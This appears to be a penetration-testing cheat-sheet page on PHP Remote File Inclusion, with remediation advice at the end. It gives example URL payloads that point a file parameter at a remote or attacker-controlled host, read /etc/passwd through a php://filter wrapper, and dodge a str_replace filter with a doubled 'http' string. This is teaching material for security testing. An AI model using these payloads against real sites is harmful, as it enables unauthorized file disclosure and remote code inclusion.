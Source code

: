 # Remote File Inclusion

Also known as RFI, an attacker can redirect actions to or from another server.&#x20;

Here we find a typical process for leveraging this vulnerability:

* Redirect actions of a server via URL parameters

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#It's searching for a file
http://$url/$query?$param=hola.php
<strong>#We can do a redirection to another site
</strong>http://$url/$query?$param=http://$url
#Or a redirection to a local server
http://$url/$query?$param=//$myip
</code></pre>

***

* Sometimes, we will need to check the page code to see the input conditions

{% tabs %}
{% tab title="Case 1" %}
We find that the code is blocking the connection through the HTTP protocol

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
$file = str_replace( array( "http://", "https://" ), "", $file );
...

```
{% endcode %}

In this case, we can try to use another connection protocol

```bash
http://$url/$query?$param=php://filter/resource=/etc/passwd
```

Also if we use `hthttp://tp://` the code will do the replacement and leave us anyway with `http://`, and we will also bypass this verification

```bash
http://$url/$query?$param=hthttp://tp://$url
```
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Remediation Actions</mark>

* Disable remote file inclusion features in language/platform for example, set _allow\_url\_include = Off_ in PHP configuration
* Avoid including files based on user input to construct, include, or require path
* Validate user input against a strict whitelist of known safe file names or identifiers
* Use static file paths instead of dynamically generating them from input
* Sanitize input by allowing only expected characters like alphanumeric only, no dots, slashes, or protocols
* Ensure proper file path resolution and canonicalize the path
